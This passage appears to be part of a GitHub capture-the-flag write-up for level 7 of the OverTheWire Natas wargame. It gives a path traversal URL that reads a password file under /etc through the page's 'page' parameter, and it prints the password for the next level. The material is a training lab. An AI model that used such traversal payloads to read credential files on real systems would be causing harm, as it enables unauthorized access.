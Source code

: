 <img src="https://github.com/mauzware/OverTheWire-Natas/blob/main/natas7/lfi.png"/>

- Now, just do the path traversal and you will get a pssword. `http://natas7.natas.labs.overthewire.org/index.php?page=/../../../etc/natas_webpass/natas8`

<img src="https://github.com/mauzware/OverTheWire-Natas/blob/main/natas7/password.png"/>


---

## 🏁 Password for the next level

`natas8:xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q`

---

Back to [Main Repo](https://github.com/mauzware/OverTheWire-Natas)

